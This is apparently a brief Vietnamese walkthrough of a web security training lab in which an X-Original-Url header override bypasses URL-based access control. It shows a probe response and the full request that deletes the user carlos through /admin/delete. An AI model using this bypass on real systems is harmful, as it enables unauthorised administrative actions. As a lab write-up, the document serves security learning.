


# Lab: URL-based access control can be circumvented

Đề bài gợi ý: dùng `X-Original-URL` header.

Thử thêm `X-Original-Url: /404` vào request `GET /` thì thấy trả về lỗi.
```
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

-> có thể dùng header này để thử truy cập `/admin`.


=> truy cập thành công.

Xóa user carlos:
```
GET /?username=carlos HTTP/2
Host: 0a4d004004c114db8043d0bb005400c5.web-security-academy.net
Cookie: session=qlavuvVfKgfrlcJs9K66UdE8rKKSnhFH
X-Original-Url: /admin/delete
```

